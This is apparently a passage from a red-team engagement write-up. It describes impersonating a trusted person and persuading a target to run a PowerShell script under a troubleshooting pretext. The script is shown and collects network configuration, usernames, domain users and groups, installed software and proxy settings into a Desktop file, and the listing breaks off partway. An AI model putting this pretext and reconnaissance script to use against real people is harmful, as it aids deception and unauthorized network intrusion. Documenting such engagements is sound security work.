 ## Going one step further

Using a similar tactic we asked for credentials to connect, however, access was not granted due to the slow internet connection. We tried deploying a payload, however it got picked up by the EDR (Endpoint Detection and Response).

Since we were impersonating a trustworthy person that the others were trusting, we asked one of the targets to execute a PowerShell script that would enumerate the system (we told the target that it would help us in troubleshooting the issue).

The PowerShell script looks like this:

```
# Get the IPConfig information
$ipconfigOutput = ipconfig /all | Out-String

# Get the current username
$currentUsername = $env:USERNAME

# Get the hostname
$hostname = $env:COMPUTERNAME

# Get the domain name
$domainName = (Get-WmiObject Win32_ComputerSystem).Domain

# Get the list of installed software
$installedPrograms = Get-WmiObject -Class Win32_Product | Select-Object -ExpandProperty Name

# Get the domain users
$domainUsers = & net user /domain | Select-Object -Skip 4 | ForEach-Object {
    $userName = $_ -replace '\s{2,}', ',' -split ','
    $userName[0].Trim()
}

# Get the domain groups
$domainGroups = & net group /domain | Select-Object -Skip 6 | ForEach-Object {
    $groupName = $_ -replace '\s{2,}', ',' -split ','
    $groupName[0].Trim()
}

# Get the proxy settings
$proxySettings = Get-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings' -Name ProxyServer, ProxyEnable -ErrorAction SilentlyContinue
$proxyServer = $proxySettings.ProxyServer
$proxyEnabled = $proxySettings.ProxyEnable

# Define the file path based on the computer name
$fileName = "$hostname.txt"
$filePath = Join-Path -Path $env:USERPROFILE\Desktop -ChildPath $fileName

# Create an output string with the system information
$output = @"
IPConfig:
$ipconfigOutput

Current Username: $currentUsername

Hostname: $hostname

Installed Software:
$($installedPrograms -join "`r`n")

Domain Name: $domainName

```